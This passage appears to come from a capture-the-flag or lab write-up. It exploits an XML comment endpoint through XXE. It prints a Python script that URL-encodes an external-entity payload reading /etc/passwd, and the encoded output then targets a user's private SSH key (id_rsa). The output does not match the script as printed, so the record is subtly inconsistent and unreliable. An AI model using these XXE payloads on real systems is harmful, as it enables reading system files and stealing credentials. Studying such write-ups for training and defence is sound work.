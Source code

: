 Not some interesting info aside from noticing that this goes in the `xml` format, let's begin exploitation.


# EXPLOITATION
---

Let's send a simple request and check the format of it:


![Pasted image 20250317183500.png](../../IMAGES/Pasted%20image%2020250317183500.png)

My guess is that since this reads from a `xml` file, it could be vulnerable to XXE, also, we can try crafting a payload to read `/etc/passwd`, we can use this python script to convert the payload into url encoding:


```python
import urllib.parse
payload = '''<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<comment><name>&xxe;</name><author>test</author><comment>test</comment></comment>'''
print(urllib.parse.quote(payload))
```

Now, let's use it and copy the payload:


```python
python3 convert.py

%3C%3Fxml%20version%3D%221.0%22%3F%3E%0A%3C%21DOCTYPE%20foo%20%5B%20%3C%21ENTITY%20xxe%20SYSTEM%20%22file%3A///home/barry/.ssh/id_rsa%22%3E%20%5D%3E%0A%3Ccomment%3E%3Cname%3E%26xxe%3B%3C/name%3E%3Cauthor%3Etest%3C/author%3E%3Ccomment%3Etest%3C/comment%3E%3C/comment%3E
```
